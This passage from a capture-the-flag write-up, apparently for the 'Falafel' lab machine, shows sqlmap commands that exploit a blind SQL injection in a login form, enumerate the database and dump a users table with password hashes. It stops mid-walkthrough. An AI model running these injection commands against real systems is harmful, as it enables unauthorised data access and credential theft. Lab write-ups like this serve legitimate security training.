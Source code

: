 ![image.png]({{ site.baseurl }}/assets/falafel/image%205.png)

```bash
sqlmap -r req.txt --level 5 --risk 3 --batch --tamper=between,randomcase --random-agent
```

Mark username with astericks.

![image.png]({{ site.baseurl }}/assets/falafel/image%206.png)

The username field appear to be vulnerable to time-based blind queries

Let’s enumerate the db. It takes forever to enumerate, let’s let sqlmap find another technique. Since we have the string for an admin failed condition, let’s:

```bash
sqlmap -r req.txt --level 5 --risk 3 --batch --string "Wrong identification" -p username --technique=B
```

![image.png]({{ site.baseurl }}/assets/falafel/image%207.png)

`--string` speeds things up when you can provide a stable, unambiguous text marker that changes predictably with the injected boolean condition — it turns sqlmap’s detection into a simple, fast substring test.
Now let’s enumerate the db:

```bash
sqlmap -r req.txt --level 5 --risk 3 --batch --string "Wrong identification" -p username --technique=B --dbs

available databases [2]:
[*] falafel
[*] information_schema

sqlmap -r req.txt --level 5 --risk 3 --batch --string "Wrong identification" -p username --technique=B -D falafel --tables

+-------+
| users |
+-------+

sqlmap -r req.txt --level 5 --risk 3 --batch --string "Wrong identification" -p username --technique=B -D falafel -T users --dump

+----+--------+---------------------------------------------+----------+
| ID | role   | password                                    | username |
+----+--------+---------------------------------------------+----------+
| 1  | admin  | 0e462096931906507119562988736854            | admin    |
| 2  | normal | d4ee02a22fc872e36d9e3751ba72ddc8 (juggling) | chris    |
+----+--------+---------------------------------------------+----------+

```

Let’s also check our privileges on mysql:

